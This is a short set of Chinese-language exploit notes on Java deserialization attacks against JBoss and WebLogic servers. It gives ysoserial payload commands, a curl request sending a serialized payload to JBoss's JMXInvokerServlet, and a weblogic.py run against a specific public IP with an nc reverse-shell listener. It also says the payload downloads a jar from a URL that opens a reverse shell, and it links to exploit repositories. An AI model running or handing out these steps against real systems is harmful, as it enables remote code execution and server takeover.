 ## JavaDeserialization

###jboss：
#####一
```
▶ java -jar ysoserial-0.0.2-all.jar
Y SO SERIAL?  
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'  
    Available payload types:  
        CommonsCollections1 #jboss用這個我測試過一次可行  
        CommonsCollections2 #剩下的沒測試過  
        Groovy1  
        Spring1  

▶ java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'command' >~/payload
▶ curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '~/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet
```
[ysoserial-0.0.2-all.jar](https://github.com/frohoff/ysoserial/releases)  
####二  
https://github.com/njfox/Java-Deserialization-Exploit  
暫未測試。


###weblogic：  
```
▶ javac -classpath commons-collections-3.2.jar Main.java
▶ java Main.class
▶ python weblogic.py 116.208.2.162 7001 /tmp/payload
▶ ssh kali
root@Kali:~# nc -vv -l -p 888
```
Main.java的作用是生成一個從url下載jar包的payload，jar包執行反彈shell。  

[commons-collections-3.2.jar](http://archive.apache.org/dist/commons/collections/binaries/commons-collections-3.2.zip "Main.jar依賴包")  
[Main.java](http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/ "TransformedMap的实现方式")  
[weblogic.py](https://github.com/schinkelg/JavaUnserializeExploits/blob/master/weblogic.py "自動添加包頭的修正腳本")

--

通用漏洞可以從這裡總結：  
http://www.secpulse.com/archives/40420.html  
http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/  
https://github.com/foxglovesec/JavaUnserializeExploits  
https://github.com/njfox/Java-Deserialization-Exploit  
http://zone.wooyun.org/content/23905  